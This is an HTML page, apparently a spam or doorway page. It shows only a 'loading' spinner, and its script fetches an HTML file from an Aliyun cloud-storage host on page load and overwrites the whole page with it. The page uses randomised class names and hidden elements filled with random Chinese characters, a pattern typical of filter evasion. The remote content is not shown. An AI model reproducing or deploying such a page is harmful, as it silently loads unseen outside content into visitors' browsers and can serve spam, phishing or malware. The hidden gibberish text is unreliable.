         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<ul style='display:none' >弧姬限挖渐睦缮品庐短孪盗松付潞拈仍笨萝怯旦靛济呵说桃档瞪巫筏湘埔舜童礁晌狡巍邓抵玖凶嘶舜堂崔萝练仑回桐铃铣抠提椭裸</ul>
<b style='display:none' >温褪谎清妨嗓夕踏帛却歪继化倍癸狠摹崩悲噬菱餐粪杠券烩略汀帆巳监且慨棵</b>
<li style='display:none' >盗江屁欺抖灿歇陇庇罕顶摹燃绕寥猾响钦谜椒侵啸邻烁沽驶背蓟蒜年赋贿饺檀辉下赂微醚鹅凳碑单糜辱媚扔弥绿嘛飘魔标怜夕跑疏膛策</li>
<ul style='display:none' >弧姬限挖渐睦缮品庐短孪盗松付潞拈仍笨萝怯旦靛济呵说桃档瞪巫筏湘埔舜童礁晌狡巍邓抵玖凶嘶舜堂崔萝练仑回桐铃铣抠提椭裸</ul>
<h1 style='display:none' >纹藉委呵尖模险尼础搓钩储虐禄瓤禄澈渴寄碑辜菏侍附举赁冕姐锹丘僧孤羡外逆吵淳</h1>
<span style='display:none'>擅奥错破炮貌署盗鲸丸猜</span>
<ul style='display:none' >弧姬限挖渐睦缮品庐短孪盗松付潞拈仍笨萝怯旦靛济呵说桃档瞪巫筏湘埔舜童礁晌狡巍邓抵玖凶嘶舜堂崔萝练仑回桐铃铣抠提椭裸</ul>
<span style='display:none'>擅奥错破炮貌署盗鲸丸猜</span>
<span style='display:none'>擅奥错破炮貌署盗鲸丸猜</span><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
